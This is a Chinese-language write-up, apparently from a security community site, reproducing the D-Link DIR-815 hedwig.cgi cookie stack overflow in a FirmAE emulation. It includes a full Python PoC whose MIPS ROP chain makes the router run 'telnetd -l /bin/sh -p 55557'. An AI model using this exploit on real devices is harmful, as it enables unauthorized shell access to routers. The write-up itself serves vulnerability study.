# firmAE模拟仿真DIR815栈溢出漏洞复现-先知社区

> **来源**: https://xz.aliyun.com/news/17315  
> **文章ID**: 17315

---

## 环境配置

固件下载：<https://legacyfiles.us.dlink.com/DIR-815/REVA/FIRMWARE/>

binwalk下载：<https://github.com/ReFirmLabs/binwalk>

尽量手动编译一份binwalk，版本v2.2.3以上即可

firmAE下载：<https://github.com/pr0v3rbs/FirmAE>

建议使用ubuntu20.04吧，高版本可能会遇到很多不常见的问题

## 固件分析

分离固件

```
binwalk -Me dir815.bin
```



这里出现了一堆warning，软链接指向了/dev/null，这里先不管

寻找官方漏洞报告中说的`hedwig.cgi`漏洞文件

```
sudo find ./ -name hedwig.cgi
```



ls -l发现很多文件的软链接指向了/dev/null



这里应该就是warning提示的，bing搜索发现有博主也遇到了这种问题，并提供了解决方法

<https://zikh26.github.io/posts/d1f081a9.html?highlight=mips>



`/htdocs/web/hedwig.cgi`是`/htdocs/cgibin`的软链接

那么我们就需要去逆向分析cgibin这个二进制文件



定位main函数发现*hedwigcgi\_main*函数

跟进分析



请求方式为post

跟进*cgibin\_parse\_request*函数



这里获取几个环境变量，对我们进行漏洞利用没啥辅助作用

*sess\_get\_uid*函数

获取cookie值



这里对cookie进行分割存储，等号前的内容存入ptr，等号后的内容存入v4



判断ptr里的内容是不是uid，判断通过则将v4的内容拼接到a1后面



继续向下分析



*sprintf*函数

sprintf 是一个 C 语言标准库函数，用于将格式化的字符串写入到一个字符数组（字符串缓冲区）中。

我们继续往下走，发现还有一个sprintf函数，两次sprintf都可以造成栈溢出漏洞，这里我们要利用的是第二次sprintf



两次sprintf前后string和v20都是sobj\_get\_string(v4);

v4在此期间并未改变过

跟据分析我们知道v4为cookie中”uid=“后的内容，我们是可以自己控制其内容的



这里s的栈空间为1024，而cookie的长度没有限制，我们就可以通过控制v4达到栈溢出的效果


32位mips架构，先了解一下mips架构的栈溢出是如何进行构造的



## MIPS架构初探

### mips特点

流水线效应：MIPS采用了高度的流水线，其中最重要的就是分支延迟效应。在分支跳转语句后面那条语句叫分支延迟槽。实际上，在程序执行到分支语句时，当他刚把要跳转的地址填充好（填充到代码计数器里），还没有完成本条指令时，分支语句后面的那个指令就已经执行了，其原因就是流水线效应——几条指令同时执行，只是处于不同的阶段，mips不像其它架构那样存在流水线阻塞。所以分支跳转语句的下一条指令通常都是空指令nop或一些其他有用的语句。

缓存刷新机制：MIPS CPUs有两个独立的cache:指令cache和数据cache。 指令和数据分别在两个不同的缓存中。当缓存满了，会触发flush, 将数据写回到主内存。攻击者的攻击payload通常会被应用当做数据来处理，存储在数据缓存中。当payload触发漏洞， 劫持程序执行流程的时候，会去执行内存中的shellcode.如果数据缓存没有触发flush的话，shellcode依然存储在缓存中，而没有写入主内存。这会导致程序执行了本该存储shellcode的地址处随机的代码，导致不可预知的后果。(通常执行sleep(1)刷新)

### 寄存器



`$s0 ~ $s7, $fp, $sp`在栈中存放的地址**依次递增**



### 汇编基础

1. sw 用于将寄存器的内容存储到内存中 `sw $ra, 0x24($sp)`  将 `$ra` 的值写入距离栈顶（`$sp`）偏移 `0x24` 的内存单元中
2. move 将一个寄存器的值复制到另一个寄存器 `move $rd, $rs`  将`$rs`赋值给 `$rd`
3. jalr 跳转并链接寄存器 `jalr $t9` 程序的执行流程会跳转到 `$t9` 指向的地址处继续执行
4. addui 用于执行“带符号的立即数加法” `addiu $s5, $sp, 0x10` 将 `$sp` 的值加上 16，并将结果存储到 `$s5` 中

### 函数调用规则

**前四个参数**：

* 前四个参数通过寄存器 `$a0`、`$a1`、`$a2` 和 `$a3` 传递。
* 如果函数的参数少于四个，多余的寄存器不会被使用。

**超过四个参数**：

* 如果函数的参数超过四个，额外的参数会通过栈传递。
* 调用者需要在栈上为这些额外的参数分配空间，并将参数值存储到栈上。

## 漏洞利用

mips架构的题目有一个特性，没有办法开始NX保护，那么我们除了常规构造ROP链子，还可以通过写shellcode。

1. 纯`ROP`链，通过调用`system`函数来`getshell` 。
2. 通过构造`ROP`链，跳转至读入到栈/`bss`段等处的`shellcode`执行。

### 固件仿真

这里我们利用firmAE去进行仿真操作

```
测试能否仿真成功   sudo ./run.sh -c +固件品牌   +固件文件名
进入仿真调试模式   sudo ./run.sh -d +固件品牌   +固件文件名
```



选项2：连接shell

选项4：启动gdbserver



浏览器访问192.168.0.1



### gdb动态调试

输入ps查看系统进程



http服务的进程号为2364

退出shell模式，选择4启动调试



这里需要我们输入需要调试的uid，也就是2364



接下来我们就可以进行gdb远程调试了



```
gdb-multiarch
set architecture mips
set follow-fork-mode child
set detach-on-fork off
target remote 192.168.0.1:1337
```


接下来我们在开启一个终端去发送poc，gdb就可以进行下一步调试了

### 溢出判断

我们通过前面的分析得知，漏洞为栈溢出，那么我们第一步就是去测试他的偏移值

这里我们利用pwntools里的cyclic

**功能**

* **生成循环模式字符串**：生成一个具有特定规律的字符串，每 `n` 个字符都是唯一的。默认情况下，`n=4`，即每 4 个字符为一组，且每组字符都不相同。例如：`aaaabaaacaaadaaaeaaa...`。
* **查找子串偏移量**：通过查找某个子串在循环模式字符串中的位置，来确定该子串的偏移量，从而帮助确定栈溢出点的位置。

```
cyclic(0x1000)  随机生成0x1000个字符串
cyclic_find(b'abcd')  查询abcd在字符串中的位置，即偏移量
```

poc

```
import http.client
from pwn import *
​
# 创建HTTP连接
conn = http.client.HTTPConnection("192.168.0.1")
​
payload = cyclic(0x500).decode()
​
# 设置请求头
headers = {
    'Content-Length': '21',
    'accept-Encoding': 'deflate',
    'Connection': 'close',
    'User-Agent': 'MozillIay4.0 (compatible MSIE 8.07 Winaows NT 6.17 WOW647 Triaent/4.07 SLCC27 -NET CDR 2.0.50727) -NET CLR 3.5.307297 .NET CILR 3.90.307297 Meaia CenteLr PC 6.07 .NET4.0C7 -NET4.0E)',
    'Host': '192.168.0.1',
    'Cookie': 'uid='+payload,
    'Content-Type': 'application/x-www-form-urlencoded'
}
​
# 发送POST请求
conn.request("POST", "/hedwig.cgi", body="password=123&uid=3Rd4", headers=headers)
​
# 获取响应
response = conn.getresponse()
​
# 打印响应状态码和响应内容
print(response.status, response.read().decode())
​
# 关闭连接
conn.close()
```

我们在开启一个终端发送poc，就可以进行gdb单步调试了，这里我们是测试返回地址的偏移，所以一直`ni`就行了



这里得到了返回地址的偏移是1009

我们在偏移1009后写入abcd，再次测试一下是否正确



没问题了，接下来就是去构造rop链子

### 构造payload

路由器里面是开启了telentd服务的，我们只需要执行system(telentd)就可以getshell

前面说函数调用规则时说过，前四个参数分别在a0---a3里，那么第一个参数就是a0了

查找如下gadget

```
ROPgadget --binary libuClibc-0.9.30.1.so | grep --color=auto "addiu \$s5, \$sp,"
```



```
0x000159cc : addiu $s5, $sp, 0x10 ; move $a1, $s3 ; move $a2, $s1 ; move $t9, $s0 ; jalr $t9 ; move $a0, $s5
```

重点在后两条命令上

```
jalr $t9 ;  跳转到t9 ///  move $t9, $s0 ;我们控制$s0 中的值是返回地址
move $a0, $s5  前面说过a0是第一个参数 ///  addiu $s5, $sp, 0x10 ;  $sp的值加上0x10存储到s5中，这里控制 $sp+0x10为命令行 
```

我们需要控制s0等寄存器的值，就需要知道他们的偏移，这里还是用cyclic去测试



正如前面所说`$s0 ~ $s7, $fp, $sp`在栈中存放的地址**依次递增**

确定了s0的偏移是973

寻找system函数的偏移，0x53200

因为我们是通过sprintf函数去复制拼接从而达到栈溢出的效果，而sprintf函数遇到00是会被截断的

我们需要另辟蹊径了

这里利用mips架构的一个特性 ***流水线效应***

当我们在执行jalr指令时，下一条指令可能已经被预取和解码，并开始执行。因此，即使jalr指令改变了程序计数器的值，下一条指令也可能在当前指令被执行的同时开始执行。

我们寻找另一条gadget

```
ROPgadget --binary libuClibc-0.9.30.1.so | grep --color=auto "move \$t9, \$s5 ; jalr \$t9 ; addiu \$s0"
```



```
0x000158c8 : move $t9, $s5 ; jalr $t9 ; addiu $s0, $s0, 1
```

跳转到t9的同时，`addiu $s0, $s0, 1` 也会被执行，那么此时我们就可以将`$s0` 设置为system-1即0x531ff

**构造rop如下：**

首先在s0传入system-1的地址，s5传入了0x000159cc的gadget。溢出之后，首先返回到s5的地址，同时，s0++，变为system的地址。此时执行第二个gadget,将"telnetd"传入s5,并且跳转到$s0也就是system,同时s5被赋值到a0也就是第一个参数，成功执行`system("telnetd -l /bin/sh -p 55557")`

```
payload=cyclic(973).decode()
payload+=system1#s0
payload+="cccc"#s1
payload+=gadget11*7#s5
payload+=gadget22
payload+="dddd"*4 
payload+="telnetd -l /bin/sh -p 55557 & ls & "#a0
```

这里成功连接上，getshell



```
POC
------------------------------------------------------------------------------------------------------------
import http.client
from pwn import *

set("./cgibin")

# 创建HTTP连接
conn = http.client.HTTPConnection("192.168.0.1")

## XOR $t0, $t0, $t0,相当于 nop，因为nop是\x00不能发送，会被sprintf截断
nop = "\x26\x40\x08\x01"

#libc基地址
libc = 0x77f34000
#gadget
system=libc+0x531ff
gadget1=libc+0x159cc
gadget2=libc+0x158c8
print(p32(system))
print(p32(gadget1))
print(p32(gadget2))
system1='\xffq\xf8w'
gadget11="\xcc\x99\xf4w"
gadget22="\xc8\x98\xf4w"

payload=cyclic(973).decode()
payload+=system1#s0
payload+="cccc"#s1
payload+=gadget11*7#s5
payload+=gadget22
payload+="dddd"*4 
payload+="telnetd -l /bin/sh -p 55557 & ls & "#a0
# 设置请求头
headers = {
'Content-Length': '21',
'accept-Encoding': 'deflate',
'Connection': 'close',
    'User-Agent': 'MozillIay4.0 (compatible MSIE 8.07 Winaows NT 6.17 WOW647 Triaent/4.07 SLCC27 -NET CDR 2.0.50727) -NET CLR 3.5.307297 .NET CILR 3.90.307297 Meaia CenteLr PC 6.07 .NET4.0C7 -NET4.0E)',
    'Host': '192.168.0.1',
    'Cookie': 'uid='+payload,
    'Content-Type': 'application/x-www-form-urlencoded'
}

# 发送POST请求
conn.request("POST", "/hedwig.cgi", body="password=123&uid=3Rd4", headers=headers)
# 获取响应
response = conn.getresponse()

# 打印响应状态码和响应内容
print(response.status, response.read().decode())

# 关闭连接
conn.close()


'''
0x000159cc : addiu $s5, $sp, 0x10 ; move $a1, $s3 ; move $a2, $s1 ; move $t9, $s0 ; jalr $t9 ; move $a0, $s5
0x000158c8 : move $t9, $s5 ; jalr $t9 ; addiu $s0, $s0, 1

返回地址偏移为1009
s0偏移为973  s2--s8依次+4

'''
```
